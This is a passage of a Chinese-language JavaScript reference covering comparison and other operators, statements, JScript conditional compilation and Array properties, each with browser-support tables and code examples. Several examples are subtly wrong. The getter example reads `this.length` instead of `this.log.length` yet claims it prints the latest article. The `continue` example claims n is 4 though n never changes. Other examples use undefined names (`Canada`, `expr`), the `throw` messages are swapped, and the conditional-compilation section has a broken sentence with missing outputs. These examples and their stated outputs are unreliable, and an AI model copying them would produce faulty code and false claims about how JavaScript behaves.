**描述:** 如果两个值都是字符串，则执行字符串连接，并将结果存储在左侧操作数中。
**示例:**
```javascript
<script>
var myStr = "Alexei";
myStr += "Robert";
myStr += "White";
document.write(myStr);
</script>
```

### < (字典小于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 < string2`
**描述:** 对两个操作数进行字典比较，如果左侧操作数较小则返回 true。
**示例:**
```javascript
<script>
var myStr = "Jimminy";
var myStr2 = "Cricket";
if (myStr < myStr2) {
    document.write(myStr + "小于");
} else {
    document.write(myStr + "大于");
}
</script>
```

### <= (字典小于或等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 <= string2`
**描述:** 对两个操作数进行字典比较，如果左侧操作数较小或相等则返回 true。
**示例:**
```javascript
<script>
var myStr = "Jimminy";
var myStr2 = "Cricket";
if (myStr <= myStr2) {
    document.write(myStr + "小于或等于");
} else {
    document.write(myStr + "大于");
}
</script>
```

### == (等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 == string2`
**描述:** 比较两个操作数，如果操作数包含相同的字符串则返回 true。
**示例:**
```javascript
<script>
if ("firstly" == String("firstly")) {
    document.write("字符串相同。");
}
</script>
```

### > (字典大于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 > string2`
**描述:** 对两个操作数进行字典比较，如果左侧操作数较大则返回 true。
**示例:**
```javascript
<script>
var myStr = "Jimminy";
var myStr2 = "Cricket";
if (myStr > myStr2) {
    document.write(myStr + "大于");
} else {
    document.write(myStr + "大于等于");
}
</script>
```

### >= (字典大于或等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 >= string2`
**描述:** 对两个操作数进行字典比较，如果左侧操作数较大或相等则返回 true。
**示例:**
```javascript
<script>
var myStr = "Jimminy";
var myStr2 = "Cricket";
if (myStr >= myStr2) {
    document.write(myStr + "大于或等于");
} else {
    document.write(myStr + "大于");
}
</script>
```

## 其他

### () (函数调用/执行)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:**
```javascript
// 函数调用执行：
function myFunctionName([param1, param2, ...,paramN]) {
    // 我的代码在这里
}
// 函数调用
myFunctionName(param1, param2, etc)
```
**描述:** 函数调用。调用函数并能够向该函数传递参数。
**示例:**
```javascript
<script>
// function invocation:
function myFunctionName(param1, param2) {
    // mycode goes here
}
// function call
myFunctionName(true, true);
</script>
```

### , (逗号)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `statementA, statementB, statementC`
**描述:** 逗号允许将多个语句作为一条语句执行。这只会返回最右侧语句的结果。
**示例:**
```javascript
<script>
// 让我们使用逗号运算符将多个指令连接起来
var a = (b = 8, c = 2); // a 现在等于 2，这是最后一条指令
document.write("a= " + a + "<br />"); // 2
document.write("b= " + b + "<br />"); // 8
document.write("c= " + c + "<br />"); // 2
document.write("a = " + a + " b = " + b + " c = " + c + "<br />"); // a = 2 b = 8 c = 2
</script>
```

### . (点操作符)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:**
```javascript
myProp = object.property
object.property = myProp
```
**描述:** 点运算符（或“点符号法”）适用于包含方法或属性的 JavaScript 对象。当使用点表示法时，属性必须是属于该对象的有效 JavaScript 标识符。例如：`document.body.innerHTML="test"`。在前面的示例中，我们使用点表示法访问 document 的 body 元素，并再次访问 body 的 innerHTML 属性。
**示例:**
```javascript
<script>
var myObject = {apples:23, bananas: 12, oranges:9};
document.write(myObject.bananas + "<br />"); // 12
</script>
```

### ?: (条件运算符)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `expression ? val1 : val2`
**描述:** 如果最左侧的操作数（布尔值）求值为真，则从操作返回 `val1`。否则，返回 `val2`。
**示例:**
```javascript
<script>
// 首先让我们创建一个随机数
var myRandom = Math.random() * 100;
// 现在对该数字使用条件语法
var result = (myRandom > 50) ? "Was greater than 50" : "Was less than 50";
document.write(result);
</script>
```

### delete

**标准:** `JavaScript 1.0+`, `JScript 3.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 2.0+`, `Opera 5.0+`, `Safari 1.0+`
**语法:**
```javascript
delete identifierName
delete myObject.property
delete myObject["property"]
delete myObject[index]
delete myProperty // 在 with 语句内 允许
```
**描述:** 删除一个对象、对象的成员（方法或属性）或数组中指定索引的元素。在 JavaScript 1.2 之前，delete 操作符会导致对象等于 null 而不是 undefined。
**示例:**
```javascript
<script>
// 首先让我们创建一个随机数
myRandom = Math.random() * 100;
delete myRandom;
try {
    document.write(myRandom + " still exists!<br />");
} catch(e) {
    document.write("Doesn't exist!<br />"); // 将执行
}
</script>
```

### get

**标准:** `JavaScript 1.5+`
**支持:** `Firefox 1.0 (Gecko 1.7)+`
**语法:** `{get myProperty [functionName]() { ... } }`
**描述:** 将属性绑定到函数，当在对象上查找该属性时，会调用该函数。
**示例:**
```javascript
<script>
var articles = {
  get latest () {
    if (this.log.length > 0) {
      return this.log[this.length - 1];
    }
    else {
      return null;
    }
  },
  set current (str) {
    return this.log[this.length] = str;
  },
  log: []
}
articles.current = "About the Universe";
articles.current = "A Brief History of Time";
articles.current = "A Longer History of Time";
document.write(articles.latest); // A Longer History of Time
</script>
```

### in

**标准:** `JavaScript 1.2+`, `JScript 3.0+`, `ECMAScript 2.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 4.0+`, `Opera 5.0+`, `Safari 1.0+`
**语法:** `property in object`
**描述:** 如果指定属性存在指定对象中，则返回 true。
**示例:**
```javascript
<script>
var myArr = ["tree", "horse"];
document.write("length" in myArr); // true
</script>
```

### instanceof

**标准:** `JavaScript 1.5+`, `JScript 3.0+`, `ECMAScript 3.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 4.0+`, `Opera 5.0+`, `Safari 1.0+`
**语法:** `object instanceof type`
**描述:** 判断对象是否是另一个对象的实例。
**示例:**
```javascript
<script>
var theDay = Date();
if (theDay instanceof Object) {
  document.write("theDay is an instance of Object");
}
</script>
```

### new

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `objectName = new type([params])`
**描述:** 创建任何类型的构造函数的实例。
**示例:**
```javascript
<script>
var Animal = function() {
    this.fur = true;
    this.scales = false;
};
var cat = new Animal();
cat.location = Canada;
</script>
```

### set

**标准:** `JavaScript 1.5+`
**支持:** `Firefox 1.0 (Gecko 1.7)+`
**语法:** `{set myProperty functionName { ... }}`
**描述:** 将属性绑定到函数，当尝试在对象上设置该属性时，会调用该函数。
**示例:**
```javascript
<script>
var articles = {
  get latest () {
    if (this.log.length > 0) {
      return this.log[this.length - 1];
    }
    else {
      return null;
    }
  },
  set current (str) {
    return this.log[this.length] = str;
  },
  log: []
}
articles.current = "About the Universe";
articles.current = "A Brief History of Time";
articles.current = "A Longer History of Time";
document.write(articles.latest); // A Longer History of Time
</script>
```

### this

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:**
```javascript
this
this.property
this.method
```
**描述:** 指向当前的父对象。
**示例:**
```javascript
<script>
var Animal = function() {
    this.fur = true;
    this.scales = false;
    this.location = 'Canada';
};
var cat = new Animal();
document.write(cat.location); // Canada
</script>
```

### typeof

**标准:** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `typeof myObject`
**描述:** 返回指示操作数类型的字符串。
**示例:**
```javascript
<script>
var var1 = undefined;
var var2 = null;
var var3 = "Test";
var var4 = 12345;
var var5 = {a:23,b:'3242'};
var var6 = true;
document.write(typeof var1 + "<br />"); // undefined
document.write(typeof var2 + "<br />"); // object
document.write(typeof var3 + "<br />"); // string
document.write(typeof var4 + "<br />"); // number
document.write(typeof var5 + "<br />"); // object
document.write(typeof var6 + "<br />"); // boolean
</script>
```


### void

**标准:** JavaScript 1.1+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
`void(expression)`

### 描述
计算表达式并返回 undefined。

### 示例
```html
<a href="javascript:void(0);">点击此处什么都不做</a>
<a href="javascript:void(document.body.style.backgroundColor='red');">点击此处将背景色设为红色</a>
```

### []（对象和数组访问符）

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
// 在对象中:
myProp = object[propertyName]
object[propertyName] = myProp

// 在数组中:
myArrItem = myArray[0]
myArrItem = myAssociativeArray[hashindexstring]
```

### 描述
括号符号可访问对象的方法和属性，也可以访问数组对象中的元素。对于对象，可以使用点表示法或使用括号表示法来访问方法和属性。例如：`document.body.innerHTML` 等于：`document['body']['innerHTML']`

### 示例
```javascript
var myObject = {apples:23, bananas: 12, oranges:9};
document.write(myObject['bananas'] + "<br />"); // 12
```

# JavaScript 语句

语句是程序的构建模块，定义了程序的行为。JavaScript 支持许多常见的语句类型，包括条件语句（`if .. else`）和迭代语句（`for .. in`）。

**语句列表**


## block { }

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
{
    myStatement
    anotherStatement
    ...
}
```

### 描述
用于对语句进行分组并提供共享上下文。块由一对大括号 ({ }) 定义。

### 示例
```javascript
var x = 0;
while (x < 10) {
    x++;
}
document.write(x + "<br />"); // 10
if (x) {
    var x = 2;
}
document.write(x); // 输出 2
```

## break

**标准:** JavaScript 1.1+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
break;
break [label];
```

### 描述
终止当前的循环、switch 语句或标签语句，并继续执行该语句块之后的代码。

### 示例
```javascript
var count = 0;
while (count < 1000) {
    count++;
    if (count == 100)
        break;
}
document.write("Count:" + count); // 100
```

## const

**标准:** JavaScript 1.5+
**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 7.0 (Gecko 1.0.1)+

### 语法
```javascript
const myVariable [= InitialValue]
```

### 描述
声明一个只读全局常量并将其初始化为一个值。

### 示例
```javascript
const a = 7;
document.writeln("a is " + a + "."); // 7
// 现在我们尝试改变 a
a = 5;
document.writeln("a is " + a + "."); // 7
```

## continue

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
continue;
continue [myLabel];
```

### 描述
结束带标签循环当前迭代中任何语句的执行，并恢复下一次迭代。

### 示例
```javascript
i = 0;
n = 0;
while (i < 5) {
    i++;
    if (i == 3)
        continue;
}
document.write("i is " + i + " but n is " + n); // i is 5 but n is 4

i = 0;
n = 0;
j = 0;
startingpoint:
while (i < 4) {
    i++;
    n = 0;
    while (n < 4) {
        n++;
        if (n > 2) {
            continue startingpoint;
        }
    }
}
document.write("Should 16 iterations. There were: " + j); // Should 16 iterations. There were 12
```

## do..while

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 1.0
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
do {
    statement;
} while (expression)
```

### 描述
创建一个循环，直到测试条件假。do..while 至少执行一次循环。

### 示例
```javascript
var myCount = 0;
do {
    myCount++;
    document.write("myCount:" + myCount + "<br />");
} while (myCount < 5);
/*
myCount: 1
myCount: 2
myCount: 3
myCount: 4
myCount: 5
*/
```

## export

**标准:** JavaScript 1.2+
**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 4.0+

### 语法
```javascript
export name1, name2, ..., nameN;
export *;
```

### 描述
允许脚本向其他脚本提供属性、函数和对象。

### 示例
```javascript
var myObj = {a:12,b:true,c:(new Date())};
export myObj;
```

## for

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
for ([initial-expression]; [condition]; [final-expression])
    statement
// 或使用块语法:
for ([initial-expression]; [condition]; [final-expression]) {
    statement
}
```

### 描述
创建一个由三个可选表达式定义的循环，后面跟着循环执行的语句。

### 示例
```javascript
for (var myCount = 0; myCount < 5; myCount++) {
    document.write("myCount:" + myCount + "<br />");
}
/*
myCount: 0
myCount: 1
myCount: 2
myCount: 3
myCount: 4
*/
```

## for each..in

**标准:** JavaScript 1.6+
**支持:** Firefox 1.5 (Gecko 1.8)+

### 语法
```javascript
for each (variable in object)
    statement
// 使用块语法:
for each (variable in object) {
    statement
}
```

### 描述
遍历对象所有属性的值。

### 示例
```javascript
var myObj = {a:32,b:true,c:(new Date())};
for each (i in myObj) {
    document.write(i + "<br />");
}
/*
32
true
Sun Sep 28 2008 20:34:56 GMT-0700 (PDT)
*/
```

## for..in

**标准:** JavaScript 1.0+, JScript 5.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 2.0+, Opera 5.0+, Safari 1.0+

### 语法
```javascript
for (variable in object)
    statement
// 使用块语法:
for (variable in object) {
    statement
}
```

### 描述
遍历对象的所有属性。

### 示例
```javascript
var myObj = {a:32,b:true,c:(new Date())};
for (var i in myObj) {
    document.write(i + ": " + myObj[i] + "<br />");
}
/*
a: 32
b: true
c: Sun Sep 28 2008 20:33:23 GMT-0700 (PDT)
*/
```

## function

**标准:** JavaScript 1.0+, JScript 5.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
function myFunctionName([param] [, param] [..., param]) {
    statements ..
}
```

### 描述
声明一个带有可选参数的函数。

### 示例
```javascript
function calcTax(price) {
    return parseFloat(price)*1.15;
}
document.write("The cost with tax of $10 is $" + calcTax(10));
// The cost with tax of $10 is 11.5
```

## if

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
if (condition)
    statement1
[else
    statement2]
```
使用块表示法：
```javascript
if (condition) {
    statement1
} [else {
    statement2
}]
```

### 描述
根据条件是否为真来执行语句。如果条件为假，则可以执行另一个语句（如 `else` 块中指定的）。

### 示例
```html
<script>
var myNum = Math.random()*100;
if (myNum > 50) {
    document.write("It was greater than fifty.");
} else if (myNum < 10) {
    document.write("It was less than ten.");
} else {
    document.write("It was greater than ten and less than fifty.");
}
</script>
```

## import

**标准:** JavaScript 1.2+, JScript 3.0+
**支持:** Firefox 1.0 (Gecko 1.7), Netscape Navigator 4.0+

### 语法
```javascript
import myObject
import myObject.property
import myObject.method
```

### 描述
允许脚本从显式导出此类信息的签名脚本中导入属性、函数和对象。

### 示例
```html
<script>
try {
    import myObj.*;
} catch(e) {
    document.write("Could not import that member.");
}
</script>
```

## label

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
label :
    statement
```

### 描述
声明一个标识符，可以使用 `break` 或 `continue` 来指示程序应该继续执行的位置。

### 示例
```html
<script>
var i = 0;
var n = 0;
var j = 0;
startingpoint:
while (i < 4) {
    i++;
    n = 0;
    while (n < 4) {
        n++;
        j++;
        if (n > 2) {
            continue startingpoint;
        }
    }
}
document.write("Should have been 16 iterations. There actually were: " + j);
// Should have been 16 iterations. There actually were: 12
</script>
```

## return

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
return;
return [expression];
```

### 描述
指定函数的返回的内容。如果省略，则返回 `undefined`。

### 示例
```html
<script>
function square(x) {
    return x * x;
}
document.write(square(10)); // 100
</script>
```

## switch

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 5.0+, Safari 1.0+

### 语法
```javascript
switch(expression) {
    case myLabel1:
        statements..
        break;
    case myLabel2:
        statements..
        break;
    case myLabel3:
        statements..
        break;
    case myLabel4:
        statements..
        break;
    default:
        statements..
}
```

### 描述
允许你通过与传递的表达式匹配的标签来处理该表达式。

### 示例
```html
<script>
var myPet = "Cat";
switch (myPet) {
    case "Dog":
        document.write("Big and friendly.");
        break;
    case "Cat":
        document.write("Small and aloof.");
        break;
    case "Parrot":
        document.write("Won't shut up.");
        break;
    case "Fish":
        document.write("Good with onions.");
        break;
    default:
        document.write("Not familiar with " + expr + ".");
}
</script>
```

## throw

**标准:** JavaScript 1.4+, JScript 5.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 5.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
throw expression;
```

### 描述
抛出一个用户定义的异常。

### 示例
```html
<script>
var totalMoney = 2000.00;
if (totalMoney < 1000) {
    throw new Error("Too much money");
} else if (totalMoney > 5000) {
    throw new Error("Not enough money");
} else {
    document.write("Money is okay");
}
</script>
```

## try..catch

**标准:** JavaScript 1.4+, JScript 5.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 5.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
try {
    statement1
} catch (e) {
    statement2
} finally {
    statement3
}
```

### 描述
`try` 块中的代码如果发生错误，将执行 `catch` 块中的代码。`finally` 块无论是否发生错误都会执行。

### 示例
```html
<script>
try {
    throw new Error("Error!");
} catch (e) {
    document.write("Caught: " + e.message);
} finally {
    document.write("Finally executed");
}
</script>
```

## finally

**标准:** JavaScript 1.4+, JScript 5.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 5.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
finally {
    statement
}
```

### 描述
无论 `try-catch` 块是否发生错误，该块都会执行。

### 示例
```html
<script>
try {
    // 可能代码
} catch (e) {
    // 错误处理
} finally {
    document.write("This will always run.");
}
</script>
```

## /* */ (注释)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
/* My text */
```

### 描述
所有出现在起始和结束注释运算符之间的文本（包括换行符）都会被 JavaScript 解释器忽略。此注释标签允许在代码内联插入多行文本。

## // (注释)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
// My text
```

### 描述
出现在 `//` 注释符之后同一行的所有文本都会被 JavaScript 解释器忽略。

## /*@cc_on */ (条件编译)

**标准:** JScript 3.0+
**支持:** Internet Explorer 4.0+

### 描述
条件编译允许开发者使用 JScript/Internet Explorer 特有功能，同时对其他浏览器保留优雅降级。在 Internet Explorer 4 及更高版本（`JScript 3`）中，条件注释（或广为人知的编译）是一种在 Internet Explorer 中执行自定义 JavaScript 的方便方法。条件编译的一些典型用途包括使用 JScript 中的新功能、在脚本中嵌入调试支持以及跟踪代码执行。它在跨浏览器场景下也非常有用，因为它为不支持该特性的浏览器提供了优雅降级支持。通过在代码中使用 `@cc_on` 语句可以启用条件编译，或者在多行注释块中引用如 `@if` 或 `@set` 等自定义语句。

### 示例
```html
<script>
/*@cc_on
   /*@if (@_jscript_version >=5)
      document.write("此环境支持 JScript 5+");
   @elif (@_jscript_version >= 4)
      document.write("此环境支持 JScript 4+");
   @else@*/
      document.write("此环境不支持新版本的 JScript");
   /*@end
@*/
</script>
```

### 条件编译指令
以下指令告诉浏览器在条件编译期间如何表现。请注意，这些指令仅在 JScript.NET 中支持。

#### @debug
`@debug` 指令切换调试符号输出的开启或关闭。关闭时，编译器不会为局部变量生成调试信息，但不会阻止关于全局变量信息的输出。编译器仅在从命令行使用 `/debug` 选项编译时，或在 `@page` 指令设置设置 `debug` 标志编译 ASP.NET 页面时才会生成调试符号。在这些情况下，`debug` 指令默认开启。当 `debug` 指令出现时，它将一直有效，直到遇到文件结束或找到下一个 `debug` 指令。

```javascript
function debugDemo() {
    // 关闭 debugOffVar 的调试信息。
    @set @debug(off)
    var debugOffVar = 42;
    // 开启调试信息。
    @set @debug(on)
    // debugOnVar 有调试信息。
    var debugOnVar = 10;
    // 启动调试器。
    debugger;
}
// 调用示例。
debugDemo ();
```

#### @position
在错误消息中提供代码位置信息。

**语法**
`@set @position(end | [file = fname ;] [line = lnum ;] [column = cnum])`

**示例**
```javascript
// 10 lines of host-inserted code.
//...
// End of host-inserted code.
/* @set @position(line = 1) */
var i :int = 42;
var x = ; // 错误报告在第 2 行。
// 文件剩余部分。
```

### 条件编译语句
条件编译最基本的用法涉及使用 `@if`、`@elif`、`@else` 和 `@end` 语句。一个示例是为特定版本的 JScript 显示自定义代码。例如：

```html
<script>
/*@cc_on@*/
/*@if (@_jscript_version >= 6)
  document.write ("JScript 版本 6.0 或更高。<BR>");
@elif (@_jscript_version >= 5)
  document.write ("JScript 版本高于 5.0 但低于 6.0。<BR>");
@else @*/
  document.write("您需要更新的脚本引擎。<BR>");
/*@end @*/
// 输出: JScript is higher than 5.0 but lower than 6.0.
</script>
```
这些流程控制语句反映了你在 JavaScript 中看到的内容。需要特别注意的是，在准备在非 JScript 浏览器中显示的部分之前，多行注释是如何关闭的。这是因为否则，那些浏览器将认为整个部分都是注释并忽略它。

### 条件编译变量
JScript 提供了一系列你可能想在条件编译中使用的预设变量。此外，你还可以使用 `@set` 运算符定义自己的变量。

**预定义变量**
当然，在使用任何这些变量之前，必须先用 `@cc_on` 语句激活条件编译。例如：

```html
<script>
/*@cc_on
  document.write("JScript 版本：" + @_jscript_version + "");
  @if (@win32)
    document.write("运行在 32 位系统上");
  @elif (@win16)
    document.write("运行在 16 位系统上");
  @else@*/
    document.write("运行在不同的平台上");
@*/
</script>
```
If 此代码运行在 Firefox 上将输出：在 Internet Explorer 8 上将输出：

### 设置自定义变量
开发者可以通过先使用 `@set` 指令来创建并评估自定义变量。例如：

```javascript
/*@cc_on
@set Qualify = false
@if (@jscript_version < 6)
   @set Qualify = true
@else@*/
   document.write("需要 Internet Explorer 5、6 或 7");
@*/
// 输出: Did the minimum requirements
```

# Array

## Array()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
var myArray = new Array()
var myArray = new Array(size)
var myArray = new Array(element0, element1, ..., elementN)
```

### 描述
创建一个新的数组对象。

### 示例
```javascript
var myArrInstance = new Array("apple", "show", 23, true);
document.write(myArrInstance.toString()); // apple,show,23,true
```

## Array.index

**标准:** JavaScript 1.2+, JScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 7.0+, Safari 1.0+

### 语法
`myArrayInstance.index`

### 描述
字符串中正则表达式匹配的索引。仅当数组由正则表达式搜索创建时，该属性才存在。

### 示例
```html
<script type="text/javascript">
// 因为此属性只在通过正则表达式创建数组时才会显示
// 我们创建一个字符串：
var myString = "This is really bad grammer really. really.";
// 现在我们对单词 'really' 进行匹配
var myArray = myString.match(/really/);
// 这将为我们返回包含一个元素的数组
// 现在我们写出结果，结果将是 8
document.write(myArray.index);
</script>
```

## Array.input

**标准:** JavaScript 1.2+, JScript 5.8+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 6.0+, Netscape Navigator 4.0+, Opera 7.0+, Safari 1.0+

### 语法
`myArray.input`

### 描述
用于正则表达式匹配的原始字符串。仅当数组通过 `RegExp` 匹配创建时，该属性才于数组中。

### 示例
```html
<script type="text/javascript">
// 因为此属性只在通过正则表达式创建数组时才会显示
// 我们创建一个字符串：
var myString = "This is really bad grammer really. really.";
// 现在我们对单词 'really' 进行匹配
var myArray = myString.match(/really/);
// 这将为我们返回包含一个元素的数组
// 现在我们写出输入，它将是原始字符串
document.write(myArray.input);
</script>
```

## Array.length

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法
`myArrayInstance.length`

### 描述
存储数组中的元素数量。该属性可读可写。如果写入 `length` 属性且其值比之前大，则会在数组末尾添加新元素。如果变短了，则会从末尾截断元素。

### 示例
```html
<script type="text/javascript">
var myArray = new Array("apple", "orange", "pear");
// arrlength 将等于 3
var arrlength = myArray.length;
myArray.length = 2; // "pear" 被移除了
document.write(myArray.join(",")); // apple,orange
</script>
```

## Array.prototype

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法
`Array.prototype.property`
`Array.prototype.method`

### 描述
`prototype` 属性允许你扩展对象以为所有实例添加新的属性和方法。

### 示例
```html
<script type="text/javascript">
// 此函数统计包含特定字符串的元素数量
function searchCount(strSearch) {
    var itemCount = 0;
    if (this.length > 0) {
        for (var i in this) {
            if (this[i].toString().indexOf(strSearch) > -1)
                itemCount++;
        }
    }
    return itemCount;
}
// 现在我们使用原型扩展 Array 对象以包含此函数
Array.prototype.searchCount = searchCount;
// 现在我们创建一个数组
var myArray = new Array('coolapplebook', 'applecomputer', 'dell', 'microsoft', 'iapple');
// 现在我们使用此方法来统计 'apple' 出现的次数
var myResult = myArray.searchCount('apple');
// 显示结果，结果为 3
document.write(myResult);
